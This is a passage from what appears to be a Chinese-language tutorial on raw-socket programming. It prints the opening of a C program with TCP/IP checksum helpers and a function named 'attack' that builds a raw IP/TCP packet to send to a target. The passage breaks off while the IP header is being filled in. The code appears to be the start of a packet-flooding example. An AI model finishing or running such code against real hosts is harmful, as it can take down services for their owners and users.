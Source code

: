 同样，我们重点关注IP首部中的着色部分区段的填充情况。

```
	#include <stdlib.h>
	#include <stdio.h>
	#include <errno.h>
	#include <string.h>
	#include <unistd.h>
	#include <netdb.h>
	#include <sys/socket.h>
	#include <sys/types.h>
	#include <netinet/in.h>
	#include <netinet/ip.h>
	#include <arpa/inet.h>
	#include <linux/tcp.h>

	#include <linux/if_ether.h>
	#include <linux/if_arp.h>
	#include <linux/sockios.h>

	unsigned csum_tcpudp_nofold(unsigned saddr, unsigned daddr,
				unsigned len, unsigned proto, unsigned sum)
	{
		unsigned long long s = (unsigned)sum;
		s += (unsigned)saddr;
		s += (unsigned)daddr;
		s += (proto + len) << 8;
		s += (s >> 32);
		return (unsigned)s;
	}

	unsigned short check_sum(unsigned short *addr, int len, unsigned sum)
	{
		int nleft = len;
		unsigned short *w = addr;
		unsigned short ret = 0;
		while (nleft > 1) {
			sum += *w++;
			nleft -= 2;
		}
		if (nleft == 1) {
			*(unsigned char *)(&ret) = *(unsigned char *)w;
			sum += ret;
		}

		sum = (sum>>16) + (sum&0xffff);
		sum += (sum>>16);
		ret = ~sum;
		return ret;
	}

	//在该函数中构造整个IP报文，最后调用sendto函数将报文发送出去
	void attack(int skfd, struct sockaddr_in *target, unsigned short srcport)
	{
		char buf[256] = {0};
		struct ip *ip;
		struct tcphdr *tcp;
		int ip_len;
		int op_len = 12;

		//在我们TCP的报文中Data没有字段，所以整个IP报文的长度
		ip_len = sizeof(struct ip) + sizeof(struct tcphdr) + op_len;

		//开始填充IP首部
```